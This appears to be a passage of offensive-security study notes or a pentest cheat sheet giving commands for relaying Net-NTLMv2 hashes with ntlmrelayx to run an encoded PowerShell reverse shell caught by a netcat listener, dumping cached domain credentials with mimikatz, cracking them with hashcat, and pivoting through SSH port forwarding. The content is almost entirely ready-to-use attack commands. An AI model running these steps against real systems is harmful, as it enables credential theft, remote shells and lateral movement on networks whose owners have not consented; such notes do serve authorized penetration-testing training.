 ## Relaying Net-NTLMv2 hash

Starting `ntlmrelayx` with  PowerShell reverse shell one-liner set as command that will be executed. Port for reverse shell is set to 8080 in this instance.

```
impacket-ntlmrelayx --no-http-server -smb2support -t <<IP>> -c "powershell -enc JABjAGwAaQBlAG4AdA..." 
```

```
nc -nvlp 8080
```

Using the `dir` command to create an SMB connection to our Kali machine:
```
C:\Windows\system32>dir \\<<IP>>\test
```

We should receive connection in our `ntlmrelayx` tab and `netcat` should have caught the reverse shell.

## Cracking MsCache hash

```
lsadump::cache
```

```
hashcat -m2100 '$DCC2$10240#<<USERNAME>>#<<HASH>>' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
# Pivoting

## SSH local port forwarding

For this to work you need to have `ssh` server running.

```
sudo systemctl start ssh
```

On kali:
```
ssh -L 5000:localhost:8080 <<USERNAME>>@<<VICTIM_IP>>
```

Running this command will make port 8080 on victim machine accessible to my attacking machine on port 5000.

## SSH Remote Port Forwarding

On kali:
```
sudo systemctl start ssh
```
